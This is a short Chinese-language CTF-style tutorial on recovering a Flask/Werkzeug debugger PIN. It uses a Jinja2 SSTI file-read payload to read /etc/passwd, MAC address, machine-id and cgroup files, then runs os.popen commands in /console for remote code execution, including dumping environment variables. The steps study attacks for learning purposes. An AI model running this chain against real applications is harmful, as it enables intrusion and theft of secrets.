Flask模板注入中debug模式下pin码的获取和利用:
## **什么是pin码**
pin码是flask在开启debug模式下，进行代码调试模式所需的进入密码，需要正确的PIN码才能进入调试模式，可以理解为自带的webshell。
有了pin，然后报错或访问/console进，点击一个条列的右边有一个终端按钮，点击进入控制台rce


729-315-842


## **pin码生成要六要素**
通常任意文件读取ssti：
```
{{().__class__.__bases__[0].__subclasses__()[75].__init__.__globals__.__builtins__['open']('/etc/passwd').read()}}
```
1.username在可以任意文件读的条件下读/etc/passwd进行猜测
2.modname 默认 flask.app
3.appname 默认Flask
4.moddir flask库下app.py的绝对路径,可以通过报错拿到,如传参的时候给个不存在的变量，乱传ssti
5.uuidnode mac地址的十进制，一定要先去:再转10进制。
```
任意文件读/sys/class/net/eth0/address或具体ls查看
/sys/class/net/eth0/address
/sys/class/net/ens33/address 
c6:f0:91:cb:86:e4
去掉冒号后int("c6f091cb86e4",16)转换为十进制
```
6.machine_id 机器码 
```
machine-id 基于不同版本有不同的算法
machine_id由三个合并(docker就后两个)：1./etc/machine-id 2./proc/sys/kernel/random/boot_id 3./proc/self/cgroup

在werkzeug 1.0.0rc1之前为:
docker环境: /proc/self/cgroup 列表里面…/docker/后面的内容
非docker: /etc/machine-id或/proc/sys/kernel/random/boot_id的内容

在werkzeug 1.0.0rc1及之后为:
/etc/machine-id或/proc/sys/kernel/random/boot_id
+
/proc/self/cgroup
```
![](.topwrite/assets/image_1736668157595.png)
然后通过程序生成pin。
生成pin码也有md5和sha1算法两种。

^
## **控制台利用**
有了pin，然后报错或访问/console进，点击一个条列的右边有一个终端按钮，点击进入控制台rce
```
import os
os.popen('env').read()

os.popen("ls -l /").read()
os.popen("cat /this_is_the_flag.txt").read()


__import__('os').popen("env").read()
```



![](.topwrite/assets/image_1728027706412.png)
^
<https://blog.csdn.net/rfrder/article/details/110240245>

<https://www.cnblogs.com/MisakaYuii-Z/p/12407760.html>